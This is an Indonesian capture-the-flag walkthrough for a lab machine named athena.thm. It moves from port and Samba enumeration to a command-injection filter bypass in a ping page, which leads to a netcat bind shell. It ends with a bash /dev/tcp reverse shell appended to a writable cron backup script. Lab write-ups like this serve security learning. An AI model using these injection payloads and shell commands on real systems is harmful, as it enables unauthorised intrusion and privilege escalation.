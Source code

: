 enumerate dengan rustscan
```
...
Open 10.10.230.94:22
Open 10.10.230.94:80
Open 10.10.230.94:139
Open 10.10.230.94:445
...
22/tcp  open  ssh         syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
...
80/tcp  open  http        syn-ack Apache httpd 2.4.41 ((Ubuntu))
...
139/tcp open  netbios-ssn syn-ack Samba smbd 4.6.2
445/tcp open  netbios-ssn syn-ack Samba smbd 4.6.2
...
```

Di bagian website belum ada yang menarik setelah melakukan enumerasi direktori, jadi kita pindah ke samba.Kita dapat menggunakan `enum4linux` enumerasi samba.
```
enum4linux -US athena.thm
...
//athena.thm/public
...
```
dan kita mendapat direktori samba yang bisa kita masuki sebagai anonymous dengan cara `smbclient //athena.thm/public`. Didalamnya, kita mendapatkan file `msg_for_administrator.txt` yang berisi
```text
Dear Administrator,

I would like to inform you that a new Ping system is being developed and I left the corresponding application in a specific path, which can be accessed through the following address: /myrouterpanel

Yours sincerely,

Athena
Intern
```
kita mendapatkan page `/myrouterpanel` untuk website tadi.

Jika kita cek, ternyata page ini menerima input ip dan akan melakukan command ping dengan value request `ip=127.0.0.1&submit=`. Untuk itu kita dapat mencoba melakukan command injection
```
curl http://athena.thm/myrouterpanel/ping.php -X POST -d 'ip=127.0.0.1;id &submit='
curl http://athena.thm/myrouterpanel/ping.php -X POST -d 'ip=127.0.0.1&&id &submit='
```
namun kita malah mendapat response `Attempt hacking!`. Jika kita melihat di [hacktrick](https://book.hacktricks.xyz/pentesting-web/command-injection), kita dapat lihat bahwa salah satu bypassnya adalah `ls %0A id`. Maka karena nantinya kita ingin execute `ping` dan `id`, kita dapat membuat payloadnya menjadi
```
curl http://athena.thm/myrouterpanel/ping.php -X POST -d 'ip=%0A id&submit='
```
dan kita akan mendapat response
```
<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>
```

Selanjutnya kita akan melakukan revshell, namun karena kebanyakan dari perintah revshell mengandung karakter seperti `;`, `|`, dan `&`, maka kita akan melakukan bindshell menggunakan nc yaitu `nc -lp 4445 -e /bin/bash`. Jadi nanti payload kita akan menjadi
```
curl http://athena.thm/myrouterpanel/ping.php -X POST -d 'ip=%0Anc -lp 2222 -e /bin/bash&submit='
```
selanjutnya kita connect ke bindshell dengan cara `nc IP-target 2222`, dan kita akan mendapat shell session. Selanjutnya kita bisa enumerate dengan linpeas.

Note: enumerate dengan linpeas memakan waktu cukup lama, jadi beberapa hal yang ditemukan adalah
- sudo 1.8.31 [exploit](https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit)
- /swapfile di / (unexpected)
- uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),133(lxd),134(sambashare)
- You can sniff with tcpdump! [contoh](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sniffing)
- Found readable /etc/mysql/my.cnf
- Found /var/lib/gdm3/.cache/tracker/meta.db
Tapi semua itu tidak terlalu bermanfaat informasinya.

Selanjutnya kita coba enumerasi manual dengan cara berikut, dan kita menemukan sesuatu yang cukup berguna
```bash
find / -user 'athena' 2>/dev/null
...
/home/athena                                                                                              
/usr/share/backup
```
didalam folder `/usr/share/backup` terdapat file `backup.sh` yang isinya adalah
```bash
#!/bin/bash

backup_dir_zip=~/backup

mkdir -p "$backup_dir_zip"

cp -r /home/athena/notes/* "$backup_dir_zip"

zip -r "$backup_dir_zip/notes_backup.zip" "$backup_dir_zip"

rm /home/athena/backup/*.txt
rm /home/athena/backup/*.sh

echo "Backup completed..."
```
jika kita cek permission file nya, kita mendapati bahwa file tersebut dimiliki oleh kita
```
drwxr-xr-x   2 athena   www-data  4096 May 28  2023 .                                                     
drwxr-xr-x 236 root     root     12288 May 26  2023 ..                                                    
-rwxr-xr-x   1 www-data athena     258 May 28  2023 backup.sh
```
Jadi, kita bisa buat file ini untuk revshell dengan cara menambahkannya ke paling bawah
```
echo "bash -i >& /dev/tcp/10.8.15.121/6666 0>&1" >> backup.sh
```
karena ini adalah script untuk melakukan backup, maka dapat kita asumsikan script ini akan dijalankan secara otomatis. Dan ternyata benar, dan kita mendapat shell


